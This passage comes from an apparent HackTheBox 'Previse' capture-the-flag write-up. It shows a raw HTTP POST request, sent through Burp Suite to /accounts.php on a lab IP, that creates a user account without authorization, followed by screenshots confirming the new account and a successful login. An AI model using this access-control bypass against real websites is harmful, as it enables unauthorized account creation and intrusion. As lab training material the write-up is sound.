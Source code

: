 Should be able to send a request in `Burp Suite` with the parameters from the response.

# Exploit - Creating user

Sending the following request using `Burp Suite`.

```http
POST /accounts.php HTTP/1.1
Host: 10.129.252.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.129.252.209/nav.php
Cookie: PHPSESSID=slg79ck6krdd0v61uovmtpj3ge
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

username=eplots&password=password1&confirm=password1
```

Confirmation that the user has been created.
![User created](/assets/htb/previse/user_created.png)

Logged in with the created user.
![Logged in](/assets/htb/previse/logged_in.png)

## Further enumerating website
